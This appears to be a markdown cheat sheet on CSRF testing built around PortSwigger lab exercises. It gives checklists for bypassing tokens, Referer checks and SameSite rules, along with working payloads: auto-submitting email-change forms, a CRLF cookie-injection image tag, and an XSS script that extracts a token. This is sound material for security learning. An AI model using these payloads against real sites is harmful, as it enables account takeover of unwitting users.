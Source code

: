 # CSRF (Cross-Site Request Forgery) Attack Guide

---

## Index

1. [Testing CSRF Token](#testing-csrf-token)
2. [Testing CSRF Token and CSRF Cookies](#testing-csrf-token-and-csrf-cookies)
3. [Exploitation Techniques](#exploitation-techniques)
   - [HTML Exploit Example](#html-exploit-example)
   - [Image-based CSRF Cookie Injection](#image-based-csrf-cookie-injection)
5. [Testing the Referer Header for CSRF Attack](#testing-the-referer-header-for-csrf-attack)
   - [Exploit for Referer Header Validation (Case 1)](#exploit-for-referer-header-validation-case-1)
6. [Bypassing SameSite Lax Policy](#bypassing-samesite-lax-policy)

---

## Testing CSRF Token

When testing a CSRF token, follow these steps:

1. **Remove CSRF parameter/token**: Check if the application accepts requests without the token.
2. **Change request method (POST to GET)**: Test if changing the method affects token validation.
3. **Exchange CSRF token with another user**: Verify if tokens are user-specific by testing another user’s token.

---

## Testing CSRF Token and CSRF Cookies

**If CSRF cookie Not Tied With User Session Cookie**

1. **Submit an invalid CSRF token**: See if the application accepts it.
2. **Submit a valid CSRF token from another user**: Check if the token is user-specific. 
3. **Submit a valid CSRF token and CSRF cookie from another user**: Test if both token and cookie are required to match.
4. **Assign a random value to token + cookie**: In a duplicated token cookie, try setting the same random value to both.

**If CSRF cookie Tied With User Session Cookie**

[Portswigger Lab](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)

<br>

**Note:** You can collect csrf token by inspect element.

---

### Exploitation Techniques

To exploit a CSRF token + cookie mechanism, two actions are required:

1. **Inject a CSRF cookie into the user's session** (via HTTP header injection)
2. **Send a CSRF attack to the victim**

### HTML Exploit Example

```html
<form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
<script>
        document.forms[0].submit();
</script>
```

### Image-based CSRF Cookie Injection

```html
<form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
<img src="https://0a5000e9036c9fa3820d15c300a500d4.web-security-academy.net/?search=asdasfa%0d%0aSet-Cookie:%20csrf=testing;%20SameSite=None" onerror="document.forms[0].submit()">
```

### XSS Based CSRF Attack

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = handleResponse;
  req.open('get', '/my-account', true);
  req.send();

  function handleResponse() {
    // Extract the CSRF token from the response
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];

    // Display the token in a popup alert
    alert('Extracted CSRF Token: ' + token);

    // Send a POST request to change the email
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf=' + token + '&email=test@test.com');
  }
</script>
```

---

## Testing the Referer Header for CSRF Attack

1. **Remove the Referer header**: See if the application still processes the request without it.
2. **Validate which part of the Referer header is used**: Identify which part is validated by the application.

   - **Example 1**: `Referer: https://attacker.com/?vulnerable-web.net`
   - **Example 2**: `Referer: http://vulnerable-website.com.attacker-website.com/csrf-attack`

### Exploit for Referer Header Validation (Case 1)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<head>
<meta name="referrer" content="no-referrer">
</head>
  <body>
    <form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

## Bypassing SameSite Lax Policy

[Same site explanation](https://www.youtube.com/watch?v=aUF2QCEudPo&t=360s)

<br>

Key Note:
```plaintext
Set-Cookie: session=bciZoELY2ukJUUOj1zJ7wcAGdYXtvq3C; Secure; HttpOnly; SameSite=Strict
```

### Steps

1. **Change request method from POST to GET**: Test if SameSite policy can be bypassed with a GET request.
2. **Via cookie refresh**: Simulate a refresh to force SameSite cookie behavior.

--- 
